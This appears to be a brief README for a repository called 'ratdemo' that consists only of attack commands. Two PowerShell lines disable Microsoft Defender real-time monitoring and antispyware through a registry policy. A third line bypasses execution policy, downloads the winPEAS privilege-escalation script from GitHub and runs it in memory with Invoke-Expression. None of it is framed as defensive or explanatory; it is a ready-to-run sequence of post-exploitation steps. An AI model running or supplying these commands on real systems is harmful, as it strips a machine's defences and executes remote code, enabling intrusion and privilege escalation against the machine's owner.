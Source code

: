# ratdemo
Proof of Value

Disable Microsoft Defender

Set-MpPreference -DisableRealtimeMonitoring $true
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force


powershell -Exec ByPass -NoProfile -c "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1') | IEX"
